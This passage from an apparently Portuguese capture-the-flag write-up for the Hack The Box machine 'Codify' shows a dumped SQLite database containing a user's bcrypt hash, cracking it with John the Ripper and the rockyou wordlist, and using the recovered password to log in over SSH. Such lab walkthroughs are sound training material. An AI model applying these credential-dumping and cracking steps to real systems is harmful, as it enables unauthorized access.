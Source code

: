 ```shell
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��	tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!opensvc@codify:/var/www/contact$ 
```
{: .nolineno }
## **Escalação de Privilégio**
### **Escalando para usuário joshua**

Hash adicionada ao john

```shell
┌──(kali💀kali)-[~/HTB/codify]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)     
1g 0:00:01:52 DONE (2024-01-23 23:40) 0.008927g/s 12.05p/s 12.05c/s 12.05C/s crazy1..eunice
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno }
`Senha: spongebob1`

Porque não tentar login via ssh?

```shell
┌──(kali💀kali)-[~/HTB/codify]
└─$ ssh joshua@codify.htb                                                                                       
The authenticity of host 'codify.htb (10.10.11.239)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'codify.htb' (ED25519) to the list of known hosts.
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

........
 
The list of available updates is more than a week old.
To check for new updates run: sudo apt update

joshua@codify:~$ 
```
{: .nolineno }
### Primeira Flag
